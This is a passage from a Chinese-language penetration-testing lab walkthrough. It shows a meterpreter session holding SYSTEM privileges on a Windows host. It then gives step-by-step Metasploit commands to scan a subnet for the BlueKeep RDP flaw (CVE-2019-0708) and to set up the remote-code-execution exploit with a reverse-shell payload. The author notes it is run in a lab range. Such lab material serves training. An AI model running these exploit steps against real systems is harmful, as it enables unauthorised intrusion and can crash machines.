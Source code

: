 当出现WIN的字样并且跳出shell就证明成功了

```shell
meterpreter > sysinfo
Computer        : WIN-37KNDA6U40V
OS              : Windows 2008 R2 (6.1 Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

该说不说，权限比传木马还高

## cve2019-0708 Windows RDP的RCE漏洞

和上面差不多，但是这个漏洞很容易蓝屏盖，所以一般不建议实战使用，poc确定漏洞就可以报送了。不过我们这里是靶场环境，那就可以玩玩getshell

`search cve 2019 0708`

先用poc扫一遍

`use0`

```shell
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set rhosts 192.168.43.155/24
rhosts => 192.168.43.155/24
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set threads 100
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run
[+] 192.168.43.63:3389    - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
```

切exp

```shell
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > use 1
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rhosts 192.168.43.63
rhosts => 192.168.43.63
```

除了正常的基础配置这个漏洞还需要将target配置到合适的参数，我们的目标是windows7那么就将target设为1

```shell
Exploit target:

   Id  Name
   --  ----
   1   Windows 7 SP1 / 2008 R2 (6.1.7601 x64)
```

